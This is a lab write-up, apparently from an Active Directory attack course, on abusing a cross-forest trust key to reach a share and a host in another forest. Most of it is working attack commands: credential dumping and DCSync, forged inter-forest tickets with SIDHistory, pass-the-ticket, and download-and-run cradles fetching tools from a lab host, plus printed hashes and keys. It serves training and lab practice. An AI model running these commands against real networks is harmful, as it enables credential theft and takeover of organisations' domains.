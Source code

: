 # Hands-on 25: Cross Forest Attacks - Trust Keys

- [Hands-on 25: Cross Forest Attacks - Trust Keys](#hands-on-25-cross-forest-attacks---trust-keys)
  - [Tasks](#tasks)
  - [Access eushare on envendor-dc](#access-eushare-on-envendor-dc)
  - [Access euvendor-net using PowerShell Remoting](#access-euvendor-net-using-powershell-remoting)

---

## Tasks

Using the DA access to eu.local: 
- Access `eushare` on `euvendor-dc`
- Access `euvendor-net` using PowerShell Remoting

<br/>

---

## Access eushare on envendor-dc

Recall in [Hands-on 23: Cross Domain Attacks - Constrained Delegation](l23-XForestConstrainedDelegation.md), we have the credential for `eu\administrator`:

Note:
eu\administrator
- SID: S-1-5-21-3657428294-2017276338-1274645009-500
- AES256: 4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d
- NTLM: fe422f818eb7e9c6de5862d94739c2e4

<br/>

First use an elevated shell to perform an over-pass-the-hash to become `eu\administrator`:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:eu.local /user:administrator /aes256:4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d /run:powershell.exe" "exit"
```

<br/>

Perform a DCSync in the spawned shell to obtain the forest trust key of `euvendor.local`:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:eu\euvendor$ /domain:eu.local" "exit"
```

![picture 1](images/df4b181241dbbb4c16d44c64d3b42f94a5d6245ffb3482b6407316a5904e7eff.png)  

Note:
eu\euvendor$
- SID: `S-1-5-21-3657428294-2017276338-1274645009-1107`
- NTLM: `6ea61970f39a88a2f8709e9268bc5a4c`
- AES256: `b9111b5f59113d3c5145f5e21aebba41733e1e35678f2e08e203bf77f0819be8`

<br/>

To enumerate the trusts information of `eu.local`, we can use https://gallery.technet.microsoft.com/scriptcenter/Get-Active-Directory-2a9e15d2 on the over-pass-the-hash shell:

(Well this is stupid ... `eu-dc` has AD module off-the-land!)

```
winrs -r:eu-dc.eu.local cmd.exe

powershell -ep bypass

iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.64/Get-ADTrustInfo.ps1"))

Get-ADTrustsInfo -DomainName eu.local
```

![picture 2](images/32222ed6b3ec58b3a125300fa90ebec2ca43e89a73abc9b3e2d34821731b0190.png)  

Note:
euvendor.local
- SID: `S-1-5-21-4066061358-3942393892-617142613`

<br/>

In elevated shell, use the above information to forge an inter-forest TGT:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::golden /domain:eu.local /user:administrator /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b9111b5f59113d3c5145f5e21aebba41733e1e35678f2e08e203bf77f0819be8 /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\sharedwitheu.kirbi"'
```

![picture 4](images/93bb5cf915e14b403cfd4a9ff34877a1727bff44f47e41f2e7189ac4f92b7b75.png)  


<br/>

Note that `euvendor-dc.euvendor.local` is not reachable by the student machine.

In so, transfer the `kirbi` file and `Rubeus.exe` to the `eu-dc`. 

On local machine:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

On `eu-dc`:

```
cd C:\Users\Public; wget http://192.168.100.64/sharedwitheu.kirbi -OutFile .\sharedwitheu.kirbi; wget http://192.168.100.64/Rubeus.exe -OutFile .\Rubeus.exe
```

![picture 5](images/c156eaf6ea77da03a3c72555599d56cb10e073630c6f82db4ddeaa12d6dee255.png)  


<br/>

Then on `eu-dc` use **Rubeus.exe** to obtain a TGS and Pass-the-ticket:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

![picture 6](images/640a5f7eb454ef9011da41e6ff5f8880813c1c2325201359fe74d7349597b8c5.png)  

However, it turns out to be having bad integrity. This could be due to using `aes256` key.

<br/>

Instead, perform the process in `ec-dc`:

```
wget http://192.168.100.64/BetterSafetykatz.exe -OutFile .\BetterSafetykatz.exe
```

```
C:\Users\Public\BetterSafetykatz.exe "kerberos::golden /domain:eu.local /user:administrator /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:6ea61970f39a88a2f8709e9268bc5a4c /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\Users\Public\sharedwitheu.kirbi" "exit"
```

![picture 7](images/6d0e4a90135a2cbf8e53e053cc22c7c21c8d3c49973639c10ab7cecc6deed706.png)  


```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

![picture 8](images/ad2848c3db74007c320e88805d16db3cb5b29dc814402abbff3daeac33788cf3.png)  

<br/>

Then try to access `\\euvendor-dc.euvendor.local\eushare`:

```
ls \\euvendor-dc.euvendor.local\eushare

type \\euvendor-dc.euvendor.local\eushare\shared.txt
```

![picture 9](images/cc2844b18bfc094e7197eba98690ba3f0c5557bf345c9826426ead111380fe1a.png)  

<br/>

---

## Access euvendor-net using PowerShell Remoting

Enumerate trusts on `eu-dc`:

```
Get-ADTrust -Filter *
```

![picture 10](images/168fbe5eadabba5b48731eb1a6f45b85c4b12769b3ce56a69ecce2e9d9b38576.png)  

- `SIDFilteringForestAware` = `True` means `SIDHistory` is enabled across the forest trust.

<br/>

Only `RID>1000` SIDs are allowed across the trust boundary - Enterprise Admins for example.

```
Get-ADGroup -Server euvendor.local -Filter * | Select Name, SID
```

![picture 11](images/9f4d32106d5bd0fcc9da8be4f12b6a533f0135302c9b2311e395205193f5522e.png)  

<br/>

We can make use of `EUAdmins` (SID: `S-1-5-21-4066061358-3942393892-617142613-1103`).

Creata a TGT with `SIDHistory` of the group `EUAdmins`:

```
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:6ea61970f39a88a2f8709e9268bc5a4c /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendoreuadmin.kirbi" "exit"
```

![picture 12](images/3148dc4f5df302479422c2a0e5bb25d4cad26e4811fb4843660b3efd53357d5c.png)  

<br/>

Then use `Rubeus.exe` to ptt:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendoreuadmin.kirbi /service:HTTP/euvendor-dc.euvendor.local,HOST/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

![picture 13](images/55e82334c5dda12b0b4d0fdb58629187e9e9a909f42602c155f1a41a348c9368.png)  

<br/>

Enumerate computers in `euvendor.local`:

```
Get-ADComputer -Filter * -Server euvendor.local | Select name
```

![picture 14](images/ecc4d0f39c833c856518608275d77d30127cf6c9d2e016fa37210f7210ac1f22.png)  

```
Invoke-Command -Scriptblock {hostname; whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

```
winrs -r:euvendor-net.euvendor.local cmd.exe
```
